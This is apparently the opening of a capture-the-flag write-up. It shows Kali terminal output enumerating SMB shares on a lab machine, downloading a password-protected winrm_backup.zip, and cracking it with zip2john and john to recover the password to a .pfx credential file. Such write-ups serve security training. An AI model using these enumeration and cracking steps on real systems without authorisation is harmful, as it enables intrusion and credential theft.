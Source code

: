 ### Enumrating SMB Shares
```shell-session
┌──(kali㉿kali)-[~/Desktop/Timing]
└─$ smbclient -L \\\\10.10.11.152  
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Exploring `Shares` Share :-

```shell-session
┌──(kali㉿kali)-[~/Desktop/Timing]
└─$ smbclient \\\\10.10.11.152\\Shares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

smb: \HelpDesk\> dir
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021
```

Found some files out of which `winrm_back.zip` maylead to user.

#### Exploring File
`winrm_back.zip` is password protected and we don't have any password so lets crack it using **john**

```shell-session
┌──(kali㉿kali)-[~/Desktop/Timing]
└─$ zip2john winrm_backup.zip > zip.hash                                                                         82 ⨯
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

┌──(kali㉿kali)-[~/Desktop/Timing]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
```